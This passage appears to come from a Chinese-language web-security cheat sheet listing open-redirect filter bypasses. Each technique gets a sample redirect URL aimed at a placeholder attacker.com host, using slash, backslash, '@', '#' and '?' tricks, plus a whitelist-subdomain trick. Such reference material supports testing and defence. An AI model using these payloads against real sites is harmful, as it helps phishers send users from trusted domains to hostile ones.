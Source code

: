 ### 1.2.1 单斜线绕过  
```Plain Text  
http://www.xxx.com/redirect?url=/www.attacker.com  
```  

### 1.2.2 缺少协议绕过  
```Plain Text  
http://www.xxx.me/redirect?url=//www.attacker.com  
```  

### 1.2.3 多斜线绕过  
```Plain Text  
http://www.xxx.me/redirect?url=///www.attacker.com  
http://www.xxx.me/redirect?url=////www.attacker.com  
```  

### 1.2.4 问号绕过  
```Plain Text  
http://www.xxx.com/redirect?url=http://attacker.com?login.xxx.com  
```  

### 1.2.5 正斜杠绕过  
```Plain Text  
http://www.xxx.com/redirect?url=http://attacker.com/login.xxx.com  
```  

### 1.2.6 反斜杠绕过  
```Plain Text  
# 一个反斜杠绕过  
http://www.xxx.com/redirect?url=http://attacker.com\login.xxx.com  

# 两个反斜杠绕过  
http://www.xxx.com/redirect?url=http://attacker.com\\login.xxx.com  

# 一个反斜杠 一个点  
http://www.xxx.com/redirect?url=http://attacker.com\.login.xxx.com  
```  

### 1.2.7 `@`符号绕过  
```Plain Text  
http://www.xxx.com/redirect?url=http://www.xxx.com@www.attacker.com  
```  

### 1.2.8 `#`符号绕过  
```Plain Text  
http://www.xxx.com/redirect?url=http://www.attacker.com#www.xxx.com  
```  

### 1.2.9 利用白名单缺陷绕过  
如果白名单限制不当：  
- 网站允许跳转到`www.xxx1.com`，可以使用`www.xxx1.com`尝试绕过  
- 如果白名单检测到包含`xxx.com`即可跳转，可以注册`<custom-name>.xxx.com`域名来进行跳转。  
